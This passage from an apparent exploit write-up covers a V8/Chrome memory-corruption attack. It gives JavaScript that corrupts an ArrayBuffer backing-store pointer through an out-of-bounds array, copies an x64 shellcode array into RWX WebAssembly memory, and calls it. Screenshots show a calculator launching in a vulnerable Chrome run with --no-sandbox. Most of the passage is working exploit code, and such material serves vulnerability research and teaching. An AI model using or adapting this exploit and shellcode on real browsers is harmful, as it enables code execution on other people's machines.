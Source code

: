 ```js
      shellcode = [0xe7894955, 0xe48348fc, 0x00c0e8f0, 0x51410000, 0x51525041, 0xd2314856, 0x528b4865, 0x528b4860, 0x528b4818, 0x728b4820, 0xb70f4850, 0x314d4a4a, 0xc03148c9, 0x7c613cac, 0x41202c02, 0x410dc9c1, 0xede2c101, 0x48514152, 0x8b20528b, 0x01483c42, 0x88808bd0, 0x48000000, 0x6774c085, 0x50d00148, 0x4418488b, 0x4920408b, 0x56e3d001, 0x41c9ff48, 0x4888348b, 0x314dd601, 0xc03148c9, 0xc9c141ac, 0xc101410d, 0xf175e038, 0x244c034c, 0xd1394508, 0x4458d875, 0x4924408b, 0x4166d001, 0x44480c8b, 0x491c408b, 0x8b41d001, 0x01488804, 0x415841d0, 0x5a595e58, 0x59415841, 0x83485a41, 0x524120ec, 0x4158e0ff, 0x8b485a59, 0xff57e912, 0x485dffff, 0x000001ba, 0x00000000, 0x8d8d4800, 0x00000101, 0x8b31ba41, 0xd5ff876f, 0xa2b5f0bb, 0xa6ba4156, 0xff9dbd95, 0xc48348d5, 0x7c063c28, 0xe0fb800a, 0x47bb0575, 0x6a6f7213, 0x894c9000, 0x63c35dfc, 0x00636c61];

      const backing_store_index = 33;

      // We will be writing into dataview2 by corrupting the backingStore pointer to point to the address

      backup = oob_Array[backing_store_index];
      oob_Array[backing_store_index] = new Int64(rwxAddress).asDouble(); // corrupt the backing store with rwxAddress

      // copying 4 bytes by 4 bytes
      for (let i = 0; i < shellcode.length; i++) {
          dataview.setUint32(i * 4, shellcode[i], true); // offset +4 each time data is copied and in little endian format
      }

      // Restoring to garauntee the condition for proper usage
      oob_Array[backing_store_index] = backup;
  }
  
    shellcoding_the_rwx();
```

Let's verify that that the shellcode is written in the rwx address. We do it like this because we cannot be too sure if the shellcode would ever work.

Here, we know that it works!

[![shellcodeCopied.jpg](shellcodeCopied.jpg)

With the shellcode finally in rwx memory, we can run the function just by calling it.


```js
var evil = wasmInstance.exports.main;
console.log("[++++] Calling evil function");
evil();
console.log("[*] Exploit completed!");
```

![calc_d8.jpg](calc_d8.jpg)

We tried it with the vulnerable version of chrome and indeed we can get the calculator after disabling sandbox with `--no-sandbox` flag.
